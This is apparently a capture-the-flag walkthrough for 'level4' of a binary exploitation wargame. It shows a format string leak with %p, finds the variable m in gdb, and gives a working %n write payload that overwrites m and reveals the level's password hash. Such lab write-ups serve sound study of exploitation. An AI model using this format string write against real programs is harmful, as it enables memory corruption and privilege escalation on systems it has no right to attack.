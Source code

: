 # level4

```sh
$> ls -l ~
-rwsr-s---+ 1 level6 users 5385 Mar  6  2016 level5
```

```sh
$> python -c 'print("A"*4 + "%p "*16)' | ./level4
AAAA0xb7ff26b0 0xbffff784 0xb7fd0ff4 (nil) (nil) 0xbffff748 0x804848d 0xbffff540 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x25207025 0x70252070 0x20702520 0x25207025
```
As we can see, the 12th pointer displayed is injectable.  


```sh
$> gdb -q level4
(gdb) info variables
[...]
0x08049810  m
```

We just have to write the value `16930116` into the m variable.  
To do that, we just pad `16930116` - `4` bytes for the address of `m()` into the 12th pointer :

```sh
$> python -c 'print("\x10\x98\x04\x08" + "%16930112d" + "%12$n")' | ./level4
[...]
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
